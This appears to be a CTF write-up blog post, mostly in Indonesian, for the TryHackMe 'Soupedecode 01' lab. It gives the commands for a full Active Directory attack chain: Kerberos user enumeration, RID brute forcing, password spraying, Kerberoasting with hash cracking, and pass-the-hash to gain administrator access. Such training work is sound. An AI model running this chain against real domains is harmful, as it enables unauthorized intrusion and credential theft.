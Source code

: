 ```yaml
---
title: "Soupedecode 01"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - tryhackme
  - easy
---
```


### Description ###
Soupedecode is an intense and engaging challenge in which players must compromise a domain controller by exploiting Kerberos authentication, navigating through SMB shares, performing password spraying, and utilizing Pass-the-Hash techniques. Prepare to test your skills and strategies in this multifaceted cyber security adventure.

### PoC ###
pertama nmap untuk mendapatkan beberapa informasi penting
```
nmap -sCV 10.201.103.52 --min-rate=1000 -oN nmap -Pn
```
![alt text](/assets/images/tryhackme/soupedecode/image1.png)
terdapat beberapa informasi mengenai port dan services yang sedang barjalan. Tambahkan DNS targe ke //etc/hosts
```
10.201.62.21 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
``` 
Setelah itu mencoba untuk menemukan user yang tepat pada kerberos sesuai dengan yang di intruksikan pada description
```
./kerbrute/kerbrute userenum -d soupedecode.local --dc 10.201.62.21  /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt 
```
![alt text](/assets/images/tryhackme/soupedecode/image2.png)
setelah mendapatkan beberapa user dengan wordlist menggunakan tols kerbrute, langsung mengeceknya menggunakan netexec untuk mengetahui apakah user tersebut bisa mengkases smb itu.
dan hasilnya nihil
mendapatkan referensi dari:
```
https://0xdf.gitlab.io/2024/03/30/htb-rebound.html#
```
RID cycle attack atau RID brute force adalah teknik untuk mencari akun-akun pengguna di Active Directory dengan menebak nilai Relative Identifier (RID) yang menjadi bagian terakhir dari SID domain. 
menggunakan impacket-lookupsid
```
impacket-lookupsid -no-pass 'guest@soupedecode.local' 8000 | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tee users
```
setelah mendapatkan beberapa user dari impacket-lookupsid, trus coba lagi menggunakan netexec kembali dengan user dan password yang sama
```
netexec smb dc01.soupedecode.local -u users   -p users --no-bruteforce --continue-on-success 
```
![alt text](/assets/images/tryhackme/soupedecode/image3.png)
dan berhasil menemukan user sama passwordnya. dan coba untuk di tes
```
netexec smb dc01.soupedecode.local -u ybob317 -p ybob317 --shares  
```
![alt text](/assets/images/tryhackme/soupedecode/image4.png)
login ke smb menggunakan user sama pass yang didapat dan baca flagnya
![alt text](/assets/images/tryhackme/soupedecode/image5.png)

### PRIVSEC ###
habis itu mencoba mendapatkan hashnya dengan menggunakan impacket-impacket-GetUserSPNs
```
impacket-GetUserSPNs soupedecode.local/ybob317:ybob317 -dc-ip 10.201.62.21 -request
```
![alt text](/assets/images/tryhackme/soupedecode/image6.png)
setelah mendapatkan hashnya lalu crack dengan hashcat
```
hashcat -m 13100 passfile_svc.txt /usr/share/wordlists/rockyou.txt  
```
setalah mendaptkan passwordnya lalu login ke smbnya
```
smbclient //dc01.soupedecode.local/backup -U file_svc
```
![alt text](/assets/images/tryhackme/soupedecode/image7.png)
ambil backup_extracted.txt nya, habis itu coba satu satu combinasi username dan hassnya menggunakan impacket-smbexec
```
impacket-smbexec -hashes :[Spoiler] 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'
```
![alt text](/assets/images/tryhackme/soupedecode/image8.png)

### Flag ###

User.txt = berada dan bisa di baca melalui smb
root.txt = C:\Users\Administrator\Desktop\root.txt
